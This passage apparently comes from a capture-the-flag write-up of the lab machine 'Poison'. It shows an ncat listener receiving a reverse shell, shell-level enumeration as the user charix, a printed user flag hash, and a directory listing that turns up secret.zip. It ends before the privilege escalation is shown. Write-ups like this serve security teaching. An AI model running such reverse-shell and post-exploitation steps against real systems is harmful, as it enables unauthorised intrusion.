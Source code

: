 ```none
$ ncat -nlvp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:28853.
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
```

## Privilege Escalation (Root VNC Session Hijacking)

After owning the `charix` user, I switched to `/bin/sh` since `/bin/csh` doesn't understant the stderr (`2>`) operator.

```none
charix@Poison:~ % find / -name user.txt 2>/dev/null
find: 2: unknown primary or operator
charix@Poison:~ % which bash
bash: Command not found.
charix@Poison:~ % which sh
/bin/sh
charix@Poison:~ % sh
$ find / -name user.txt 2>/dev/null
/home/charix/user.txt
$ cat /home/charix/user.txt
eaacdfb2d141b72a589233063604209c
```

And that was the user flag.

From here, I found an interesting `secret.zip` file in the `/home/charix` directory:

```none
$ find /home/charix -ls 2>/dev/null
1203844        8 drwxr-x---    2 charix                           charix                                512 Sep 23 21:58 /home/charix
1203856        8 -rw-r-----    1 charix                           charix                               1041 Mar 19  2018 /home/charix/.cshrc
1203846        8 -rw-r-----    1 charix                           charix                                849 Mar 19  2018 /home/charix/.shrc
1203847        8 -rw-r-----    1 charix                           charix                                379 Mar 19  2018 /home/charix/.mail_aliases
1203848        8 -rw-r-----    1 charix                           charix                                336 Mar 19  2018 /home/charix/.mailrc
1203849        8 -rw-r-----    1 charix                           charix                                163 Mar 19  2018 /home/charix/.login_conf
1203850        8 -rw-r-----    1 charix                           charix                                254 Mar 19  2018 /home/charix/.login
1203851        8 -rw-r-----    1 charix                           charix                                281 Mar 19  2018 /home/charix/.rhosts
1203852        8 -rw-r-----    1 charix                           charix                                802 Mar 19  2018 /home/charix/.profile
1203855        0 -rw-rw----    1 charix                           charix                                  0 Mar 19  2018 /home/charix/.history
1203853        8 -rw-r-----    1 root                             charix                                 33 Mar 19  2018 /home/charix/user.txt
1203842        8 -rw-r-----    1 root                             charix                                166 Mar 19  2018 /home/charix/secret.zip
1203854        8 -rw-------    1 charix                           charix                                 94 Sep 23 21:04 /home/charix/.lesshst
```
